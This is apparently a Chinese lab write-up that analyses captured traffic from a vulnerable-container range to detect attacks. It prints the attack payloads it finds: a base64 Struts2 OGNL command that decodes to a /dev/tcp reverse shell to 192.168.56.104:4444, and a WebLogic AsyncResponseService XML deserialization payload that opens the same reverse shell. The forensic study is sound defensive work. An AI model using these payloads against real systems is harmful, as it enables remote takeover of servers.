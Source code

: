 ```
   ![抓包中http的数据包](./img/抓包中http的数据包.png)
2. **追踪流：** 看到完整的 HTTP 请求（攻击 payload）及其服务器返回的响应。
   ![对http包进行追踪流](./img/对http包进行追踪流.png)
   * 目标地址：192.168.56.105:26106
3. **对请求体进行URL解码：** ``%25 ``实际上是`` % ``的 URL 编码
   ![请求体URL解码](./img/请求体URL解码.png)
   * 因此 ``id=%25{...}`` 解析后变成：``id=%{（OGNL 代码执行 payload）}``->攻击者正在利用 **Struts2 OGNL 表达式解析漏洞**
   * 攻击者想要执行的shell命令：``bash -c '{echo,YmFzaCAtYyAnMDwmMzQtO2V4ZWMgMzQ8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTA0LzQ0NDQ7c2ggPCYzNCA+JjM0IDI+JjM0Jw==}|{base64,-d}|bash'``
4. **对Base64 编码的shell命令进行解码：** 
   ![对攻击的shell命令解码](./img/对攻击的shell命令解码.png)

   解码后为：``bash -c '0</dev/tcp/192.168.56.104/4444;sh <&3 >&3 2>&3'``
   * 攻击者尝试在目标服务器上创建一个反向 Shell 连接，将 Shell 的输入、输出和错误信息都通过 TCP 连接重定向到攻击者的服务器``192.168.56.104:4444``
5. **过滤找到攻击者连接反向 shell 后执行的命令：** 设置过滤条件``ip.src == 192.168.56.104 && tcp.port == 4444``，追踪 TCP 流后能得到攻击者输入的命令和服务器返回的响应。
   ![入口靶标攻击对话](./img/入口靶标攻击对话.png)
   * 目标服务器（红色语句）成功执行攻击者发送的命令（蓝色语句）
## DMZ 网第一层靶标的漏洞利用检测
1. **通过 ARP 包检测攻击者扫描行为** 大概可以得出
   ![ARP扫描](./img/ARP扫描.png)
   * ``192.170.84.5`` 在持续发送 ARP 广播请求
   * 部分进行了 ARP 相应，表示该主机存活，暴露了其 IP 和 MAC 地址
   * 由于已知``192.170.84.5``是入口 IP,遭到了攻击者（192.168.56.104）的攻击，很有可能其在之后会对其他内网暴露存活的 IP 进行攻击。 
2. **通过端点统计识别交互的 IP：** 确定网络中哪些 IP 参与了流量交互。
   
   ![端点统计识别ip](./img/端点统计识别ip.png)
   
   可以看出：
      * ``192.170.84.5`` 发送和接收的数据包最多: 表明 192.170.84.5 可能是攻击者或受感染的主机，进行了大量的网络交互。符合实际情况
      * ``192.168.56.104``也是主要通信
      * ``192.170.84.2``、``192.170.84.3``、``192.170.84.4`` 参与了流量交换：数据量较少，可能是攻击目标，或者仅仅是被扫描的设备。
3. **筛选其中被扫描的 IP：**
   * 192.170.84.2:
        ![三个二层ip交互情况（192.170.84.2）](./img/三个二层ip交互情况（192.170.84.2）.png)
   * 192.170.84.3:
        ![三个二层ip交互情况（192.170.84.3）](./img/三个二层ip交互情况（192.170.84.3）.png)
    * 192.170.84.4:
        ![三个二层ip交互情况（192.170.84.4）](./img/三个二层ip交互情况（192.170.84.4）.png)
    * 均出现了``192.170.84.2``和7001端口的 TCP 三次握手建立连接。
4. **对可疑 HTTP POST 请求分析：**
   ![可疑POST请求](./img/可疑POST请求.png)
   * **URL 可疑：**``/_async/AsyncResponseService``这个 API 端点属于 WebLogic 的异步服务，曾在多个 CVE（安全漏洞）中被利用。
   * **SOAP/XML Payload 可疑:** SOAP 协议 用于与 WebLogic 服务器通信，这通常用于企业级 Java Web 服务。
   * 同时在工作上下文段直接包含了恶意 Java 代码,利用 Java 反序列化漏洞,尝试建立反向 shell，让受害者 ``192.170.84.4 ``连接到`` 192.168.56.104:4444``，从而允许攻击者控制服务器。
        ```
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0"><string>/bin/bash</string></void>
            <void index="1"><string>-c</string></void>
            <void index="2"><string>bash -c '0&lt;&amp;103-;exec 103&lt;&gt;/dev/tcp/192.168.56.104/4444;sh &lt;&amp;103 &gt;&amp;103 2&gt;&amp;103'</string></void>
        </array>
        <void method="start"/>
        </void>
        </work:WorkContext>
        ```
5. **过滤找到攻击者连接反向 shell 后执行的命令：**
![第一层追踪流分析](./img/第一层追踪流分析.png)
## DMZ 内网第二层靶标的漏洞利用检测
针对第二层内网的抓包需要更换抓取的容器，至有双网卡的c4pr1c3/vulshare_nginx-php-flag容器进行抓包。这里我们的双网卡靶标为192.170.84.3
```